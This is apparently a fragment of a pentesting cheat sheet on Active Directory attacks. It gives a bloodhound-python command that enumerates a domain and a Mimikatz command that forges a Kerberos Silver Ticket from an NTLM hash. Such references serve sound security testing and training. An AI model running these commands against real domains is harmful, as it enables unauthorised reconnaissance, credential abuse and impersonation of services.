 <figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### bloodhound

```bash
bloodhound-python -u user -p password -ns 192.168.1.5 -d hacktor.local -c All
```

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Silver Ticket

* Mimikatz
  * with NTLM

{% code overflow="wrap" %}
```powershell
mimikatz # kerberos::golden /domain:$DOMAIN/sid:$DOMAIN_SID /rc4:$NTLM_HASH /user:$DOMAIN_USER /service:$SERVICE_SPN /target:$SERVICE_MACHINE_HOSTNAME
```
{% endcode %}
